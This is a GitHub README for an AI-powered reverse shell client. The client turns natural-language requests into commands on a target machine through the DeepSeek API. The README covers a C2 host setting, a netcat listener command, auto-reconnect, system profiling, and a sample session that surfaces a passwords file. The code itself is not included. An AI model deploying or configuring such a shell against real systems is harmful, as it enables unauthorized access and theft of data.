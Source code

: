 # 🔄 Rev-AI: AI-Powered Reverse Shell Client

![Python](https://img.shields.io/badge/python-3.7+-blue.svg)
![Platforms](https://img.shields.io/badge/platform-windows%20%7C%20linux%20%7C%20macos-lightgrey.svg)
![License](https://img.shields.io/badge/license-MIT-green.svg)

## 📌 Overview

Rev-AI is an intelligent reverse shell client that:
- Translates natural language to Linux commands using DeepSeek AI
- Maintains persistent connections with automatic reconnection
- Provides detailed system diagnostics
- Works across multiple operating systems

## 🚀 Features

| Feature | Description |
|---------|-------------|
| **🤖 AI Command Generation** | Converts English queries to executable commands |
| **🔧 Cross-Platform** | Supports Windows, Linux, and macOS targets |
| **🔒 Secure Communication** | Encrypted socket communication with timeouts |
| **🔄 Auto-Reconnect** | Resilient connection with configurable retry intervals |
| **💻 System Profiling** | Detailed OS/hardware information collection |
| **🧠 Context Memory** | Maintains conversation history with AI model |

## ⚙️ Installation

```bash
# Clone the repository
git clone https://github.com/1603160/Rev-AI-AI-Powered-Reverse-Shell.git
cd rev-ai

# Install dependencies
pip install -r requirements.txt

# Configure environment (create .env file)
echo "RSHELL_HOST=your_server_ip" > .env
echo "RSHELL_PORT=62065" >> .env
echo "DEEPSEEK_API_KEY=your_api_key" >> .env
```

## 🛠 Configuration

### Environment Variables

```ini
# Required
RSHELL_HOST="your_server_ip"  # C2 server IP
DEEPSEEK_API_KEY="sk-..."     # DeepSeek API key

# Optional
RSHELL_PORT=62065             # Connection port
RSHELL_RECONNECT=15           # Reconnect delay (seconds)
RSHELL_TIMEOUT=60             # Socket timeout 
RSHELL_MAX_HISTORY=20         # AI context memory
RSHELL_CONTEXT="context.md"   # AI instructions file
```

## 🖥 Usage

### 1. Start Listener (Server)
```bash
nc -lvnp 62065
```

### 2. Execute Client (Target)
```bash
python rev-ai.py
```

### 3. Available Commands
```
diagnostic            - Show system information
what did i tell you   - View command history
<natural language>    - AI-generated commands
```

### Example Session
```bash
> diagnostic
[Windows]
User: admin
Version: Windows-10-10.0.19045
Admin: True

> list all txt files in /documents
TEXT:
[Query] list all txt files in /documents  
[Command] find /documents -name "*.txt" 2>/dev/null
[Output]
/docs/notes.txt
/docs/passwords.txt
```

## ⚠️ Security Notice

❗ **Legal Use Only**  
This tool is intended for:
- Authorized penetration testing
- Educational purposes
- Legitimate system administration

🔒 **Required Precautions:**
1. Obtain explicit written permission before deployment
2. Use only on systems you own/administrate
3. Never use for illegal activities

## 📜 License

MIT License - See [LICENSE](LICENSE) for full text.

## 📬 Contact

For security reports or questions:
- Email: servidor-shell@proton.me
- GitHub Issues: [Open Issue](https://github.com/1603160/Rev-AI-AI-Powered-Reverse-Shell/issues)

---

*Disclaimer: Authors are not responsible for misuse of this software.*
